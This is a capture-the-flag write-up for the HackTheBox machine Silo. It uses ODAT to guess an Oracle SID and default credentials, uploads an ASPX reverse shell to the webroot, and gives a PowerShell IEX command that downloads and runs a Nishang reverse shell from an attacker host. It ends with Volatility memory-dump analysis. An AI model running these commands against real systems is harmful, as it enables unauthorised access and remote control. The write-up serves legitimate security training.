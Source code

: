 ```yaml
---
title: HackTheBox_Silo w/o Metasploit 
date: 2024-08-01 01:22:00 -500
categories: [hackthebox,CTF,writeups]
tags: [ctf,hackthebox,writeup,windows,medium]
---
```


## HTB - Silo

## Overview

![Image](/assets/img/silo/silo.png)  

## Enumeration

#### Nmap Scan Results

![Image](/assets/img/silo/image.png)  
![Image](/assets/img/silo/image_1.png)  

### Vulnerabilities and Exploitation

#### Download ODAT

[ODAT GitHub Repository](https://github.com/quentinhardy/odat)  

![Image](/assets/img/silo/image_2.png)  

Clone the repository and run the `odat.py` file:

![Image](/assets/img/silo/image_3.png)  
![Image](/assets/img/silo/image_4.png)  
![Image](/assets/img/silo/image_5.png)  
![Image](/assets/img/silo/image_6.png)  

Fix installation issues:

```python

pip3 uninstall crypto
pip3 uninstall pycrypto
pip3 install pycryptodome

```

![Image](/assets/img/silo/image_7.png)  

#### Guess SID

Use ODAT to guess the SID:

```python
python3 [odat.py](http://odat.py/) sidguesser -s 10.10.10.82 -p 1521
```

![Image](/assets/img/silo/image_8.png)  

#### Nmap Script for SID

Use an nmap script to find the SID:

![Image](/assets/img/silo/image_9.png)  

The SID is XE. 

Check password guessing options:

![Image](/assets/img/silo/image_10.png)  
![Image](/assets/img/silo/image_11.png)  

Update the wordlist to include uppercase characters:

![Image](/assets/img/silo/image_12.png)  
![Image](/assets/img/silo/image_13.png)  
![Image](/assets/img/silo/image_14.png)  

Format the wordlist properly:

![Image](/assets/img/silo/image_15.png)  

#### Password Guessing

Guess the password using the updated list:

![Image](/assets/img/silo/image_16.png)  

Valid credentials: scott/tiger  

Use the credentials to access:

```python
sqlplus64 scott/tiger@10.10.10.82:1521/XE
```

![Image](/assets/img/silo/image_17.png)  
![Image](/assets/img/silo/image_18.png)  
![Image](/assets/img/silo/image_19.png)  

## Privilege Escalation

Check user privileges:

![Image](/assets/img/silo/image_20.png)  

Use ODAT to upload a reverse shell:

```python
python3 [odat.py](http://odat.py/) utlfile -s 10.10.10.82 -p 1521 -U "scott" -P "tiger" -d XE --putFile C:\\inetpub\\wwwroot muq.aspx muq.aspx --sysdba
```

![Image](/assets/img/silo/image_21.png)  
![Image](/assets/img/silo/image_22.png)  

Visit the page to access the reverse shell:

![Image](/assets/img/silo/image_23.png)  

### Nishang Shell

Download the Nishang shell:

[Nishang GitHub Repository](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)  

Add the following line to invoke the shell:

```powershell
tail -1 Invoke-PowerShellTcp.ps1
```

![Image](/assets/img/silo/image_24.png)  
![Image](/assets/img/silo/image_25.png)  
![Image](/assets/img/silo/image_26.png)  

### Triggering the Webshell

Use the webshell to download and execute the Nishang shell:

```powershell
powershell IEX(New-Object Net.WebClient).downloadString('[http://10.10.14.31:8000/nish.ps1](http://10.10.14.31:8000/nish.ps1)')
```

![Image](/assets/img/silo/image_27.png)  

## User Flag

Getting ourselves the user flag

![Image](/assets/img/silo/image_28.png)  
![Image](/assets/img/silo/image_29.png)  

Check if there are issues with the password character display:

![Image](/assets/img/silo/image_30.png)  
![Image](/assets/img/silo/image_31.png)  

#### Memory Dump Analysis

Get the OS version and clone Volatility:

![Image](/assets/img/silo/image_32.png)  

Clone Volatility:

```bash
git clone https://github.com/volatilityfoundation/volatility.git
cd volatility
python2 setup.py install
```

Analyze the memory dump with Volatility:

```bash
python2 [vol.py](http://vol.py/) -f ~/Downloads/SILO-20180105-221806.dmp imageinfo
```

Check processes in the memory dump:

![Image](/assets/img/silo/image_33.png)  

Use the WIN2012 profile to check the process tree:

```bash
python2 [vol.py](http://vol.py/) -f ~/Downloads/SILO-20180105-221806.dmp --profile Win2012R2x64 pstree
```

![Image](/assets/img/silo/image_34.png)  
![Image](/assets/img/silo/image_35.png)  

Dump files from memory:

```bash
python2 [vol.py](http://vol.py/) -f ~/Downloads/SILO-20180105-221806.dmp --profile Win2012R2x64 dumpfiles -Q 0x12345678 -D /tmp/
```

Analyze extracted files:

```bash
strings /tmp/extracted_file > strings.txt
```
## Root Flag

![Image](/assets/img/silo/image_36.png)  
![Image](/assets/img/silo/image_37.png)  



